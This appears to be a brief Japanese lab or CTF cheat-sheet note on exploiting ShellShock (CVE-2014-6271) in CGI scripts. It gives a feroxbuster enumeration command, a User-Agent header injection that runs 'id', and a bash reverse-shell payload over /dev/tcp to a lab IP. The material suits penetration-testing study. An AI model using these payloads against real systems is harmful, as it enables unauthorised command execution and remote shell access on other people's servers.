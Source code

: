 ### ShellShock(CVE-2014-6271)
CGIに使用される拡張子を指定して、feroxbusterなどをかける。  
CGIスクリプトに使用される言語がbashであればそのまま悪用可能であり、PerlやPythonなどの場合でもsystem関数などが使用されていれば悪用される可能性がある。
```
feroxbuster -u http://10.10.10.56/cgi-bin/ -x cgi,sh,pl,py,php
```
ShellShockが実行される環境では変数が空であるため、コマンドにはフルパスが必要。
```
User-Agent: () { :;}; echo; /usr/bin/id
```
![](./image/2022-03-07-13-21-33.png)  

#### Reverse Shell
```
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.16.5/1234 0>&1
```
